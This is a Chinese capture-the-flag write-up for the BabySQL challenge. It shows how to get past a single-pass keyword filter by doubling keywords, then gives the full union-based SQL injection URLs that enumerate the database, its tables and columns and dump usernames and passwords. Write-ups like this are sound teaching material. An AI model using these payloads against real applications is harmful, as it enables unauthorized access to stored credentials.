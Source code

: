 # [极客大挑战 2019]BabySQL

## 一、过滤判断

过滤关键词：and、or、union、select等

过滤方式：替换关键词为空



## 二、绕过

题目只进行一次关键词替换，可以嵌套双写绕过。



## 三、注入

1. 判断字段数

```SQL
/check.php?username=admin'oorrder+bbyy+3%23&password=admin
```

得到字段数：3



2. 判断回显位置

```sql
/check.php?username=-admin'ununionion+seselectlect+1,2,3%23&password=admin
```

得到回显位置：2、3



3. 获取数据库名称

```sql
/check.php?username=-admin'ununionion+seselectlect+1,2,database()%23&password=admin
```

得到数据库名称：geek



4. 获取所有表

```sql
/check.php?username=0admin'ununionion+seselectlect+1,2,group_concat(table_name)+ffromrom+infoorrmation_schema.tables+whwhereere+table_schema='geek'%23&password=admin
```

得到：b4bsql、geekuser



5. 获取字段

```sql
/check.php?username=0admin'ununionion+seselectlect+1,2,group_concat(column_name)+ffromrom+infoorrmation_schema.columns+whwhereere+table_name='b4bsql'%23&password=admin
```

得到：id、username、password

```sql
/check.php?username=0admin'ununionion+seselectlect+1,2,group_concat(column_name)+ffromrom+infoorrmation_schema.columns+whwhereere+table_name='geekuser'%23&password=admin
```

得到：id、username、password



6. 获取数据

```sql
/check.php?username=0admin'ununionion+seselectlect+1,2,group_concat(id,username,passwoorrd)+ffromrom+b4bsql%23&password=admin
```

Get flag!